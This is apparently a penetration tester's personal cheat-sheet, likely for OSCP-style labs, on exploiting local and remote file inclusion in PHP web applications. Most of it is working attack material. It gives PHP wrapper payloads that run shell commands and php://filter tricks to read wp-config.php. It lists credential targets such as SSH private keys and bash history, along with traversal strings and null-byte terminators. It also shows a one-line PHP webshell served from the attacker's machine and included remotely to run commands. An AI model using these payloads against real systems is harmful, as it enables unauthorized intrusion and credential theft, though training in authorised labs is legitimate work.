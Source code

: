 Operators Handbook pg 321
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
https://blog.certcube.com/detailed-cheatsheet-lfi-rce-websheels/
https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html
#### LFI
Also try [[5_Contaminating Log Files]]
#### LFISuite - works with cookies!
```bash - kali
git clone https://github.com/D35m0nd142/LFISuite && cd LFISuite
```
```bash - kali
python lfisuite.py
```
Windows wordlist:
```bash - kali
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/Intruders/Windows-files.txt
```
Linux wordlist:
```bash - kali
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/Intruders/Linux-files.txt
```
#### PHP Wrappers
```bash
http://$TARGET/menu.php?file=data:text/plain,hello world
```
```bash
http://$TARGET/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```
[[1._rlwrap]]
[[1._Reverse Shells (WIN)#MSFVenom]]
[[4._File Transfers]]
[[0._PHP Webshells#PHP]]
---
#### Apache default config file location <<<<<<<<<<<
```
/etc/apache2/sites-available/000-default.conf
```
```
/etc/apache2/sites-enabled/000-default.conf
```
Can you download the source code?  Then just find / grep for password file locations!
==TRY TO GET /home/USER/.ssh/id_rsa==
```
/home/user/.ssh/authorized_keys
```
```
/home/user/.ssh/id_rsa
```
```
/home/user/.ssh/id_rsa.pub
```
```
/home/user/.bash_history
```
```
/var/www/html/wp-config.php
```
#### Webdav creds
```
/var/www/html/webdav/passwd.dav
```
#### Wordpress config.php
Windows location:
```bash - kali
..\..\..\..\..\..\xampp\htdocs\blog\wp-config.php
```
```bash - kali
..\..\..\..\..\..\var\www\html\wordpress\wp-config.php
```
#### PHP  base64 convertor
```bash - kali
?page=php://filter/convert.base64-encode/resource=/../../../../../../../../../../var/www/html/wordpress/wp-config.php
```
![[Port 25 - SMTP#Log Poisoning]]
#### RFI
==Remember for RFI, the file has to be txt!==
WWOLF:
![[0._PHP Webshells#wwolf]]
Save as webshell.txt
```
http://$TARGET/image.php?img=http://$KALI/webshell.txt
```
![[Pasted image 20220329093728.png]]
evil.txt:
```php
<?php echo shell_exec($_GET['cmd']); ?>
```
![[Python#Server]]
```
http://$TARGET/menu.php?file=http://$KALI/evil.txt&cmd=ipconfig
```
#### Terminators
Null byte:
```
%00
```
```
?
```
![[Pasted image 20220506120304.png]]
Just by adding a question mark on this example, we got our webshell to work.
![[Pasted image 20220506120325.png]]